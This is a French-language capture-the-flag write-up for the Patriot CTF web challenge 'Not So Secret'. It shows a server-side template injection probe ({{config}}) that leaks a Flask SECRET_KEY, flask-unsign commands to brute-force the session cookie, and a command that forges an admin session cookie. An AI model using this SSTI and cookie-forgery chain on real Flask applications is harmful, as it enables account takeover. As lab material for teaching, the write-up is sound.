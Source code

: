 # Patriot CTF

## Web

### Not So Secret

**Difficulté :** Moyen

**Enoncé :** Je suis en train de créer la prochaine grande plateforme de réseaux sociaux, mais j'ai l'habitude de mettre en place des logiciels non sécurisés.

Si vous pouvez vous connecter à l'utilisateur administrateur, je vous donnerai le flag.

Quelqu'un a piraté mon site après que j'ai lu son message, donc je ne lis plus les DM qui me sont envoyés ! > :( 

En plus de cela, j'impose un filtre de caractères spéciaux encore plus sévère parce que je ne sais pas vraiment comment patcher mon code.

p.s. Pour vous faire gagner du temps, n'essayez pas d'obtenir un reverse shell

***

![image](https://user-images.githubusercontent.com/49941629/166097674-23a7b22f-8e3e-45e4-b726-d430b5997f4a.png)

Cookie Flask
`.eJwlzjEOwjAMBdC7eGaI7X4n6WVQnNiCtaUT4u4g8U7w3nTPI84H7a_jihvdn4t2mqEo3vsaYEHFcuUsHdgcm3plzEB6baHSCrqYhLFnaI7KGsk8UYRzYlpzF-TiluI2TIaoDNWiLS2kcYZV3mou6CpjlCaVfpHrjOO_Ufp8AYinLpY.YmzqWA.f1mFmMrseT1CpljXeYZAInT8c_Q"`

`flask-unsign --unsign --cookie ".eJwlzjEOwjAMBdC7eGaI7X4n6WVQnNiCtaUT4u4g8U7w3nTPI84H7a_jihvdn4t2mqEo3vsaYEHFcuUsHdgcm3plzEB6baHSCrqYhLFnaI7KGsk8UYRzYlpzF-TiluI2TIaoDNWiLS2kcYZV3mou6CpjlCaVfpHrjOO_Ufp8AYinLpY.YmzqWA.f1mFmMrseT1CpljXeYZAInT8c_Q" --wordlist ~/rockyou.txt --no-lit
eral-eval`

{{7*'7'}} = 7777777

![image](https://user-images.githubusercontent.com/49941629/166097821-b3fa5a63-abac-40f1-bfe5-00b2e5cae5ab.png)

{{config}}

`Just sent your message: <Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'qHIMoRzDyjmWXmtOVYXRUomyOiBaNd', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': False, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'SQLALCHEMY_DATABASE_URI': 'sqlite:///db.sqlite', 'SQLALCHEMY_TRACK_MODIFICATIONS': False, 'UPLOAD_FOLDER': '/app/app/uploads', 'SQLALCHEMY_BINDS': None, 'SQLALCHEMY_NATIVE_UNICODE': None, 'SQLALCHEMY_ECHO': False, 'SQLALCHEMY_RECORD_QUERIES': None, 'SQLALCHEMY_POOL_SIZE': None, 'SQLALCHEMY_POOL_TIMEOUT': None, 'SQLALCHEMY_POOL_RECYCLE': None, 'SQLALCHEMY_MAX_OVERFLOW': None, 'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 'SQLALCHEMY_ENGINE_OPTIONS': {}}>`


`flask-unsign --sign --cookie "{'_fresh': True, '_id': 'ce350b99da512575db31f09554b543b715ce5fb78e328059262e61bfe3fa713ef11c5021fc5c68bb25fd18f2b6a62a232a33038f6e281fe67147fd53d0aa0827', '_user_id': '1'}" --secret 'qHIMoRzDyjmWXmtOVYXRUomyOiBaNd'`

`.eJwlzjEOwjAMBdC7eGaI7X4n6WVQnNiCtaUT4u4g8U7w3nTPI84H7a_jihvdn4t2mqEo3vsaYEHFcuUsHdgcm3plzEB6baHSCrqYhLFnaI7KGsk8UYRzYlpzF-TiluI2TIaoDNWiLS2kcYZV3mou6CpjlCaVfpHrjOO_Yfp8AYihLpQ.Ymztig.yz-w4K7dpoOZxHa5NmpqoMF9WPQ`

![image](https://user-images.githubusercontent.com/49941629/166097942-b0536777-d785-4ad4-a6d1-fc605fad6685.png)

![image](https://user-images.githubusercontent.com/49941629/166097953-0f4dcb33-87fe-4fc6-bf3f-efcbc8217dd3.png)

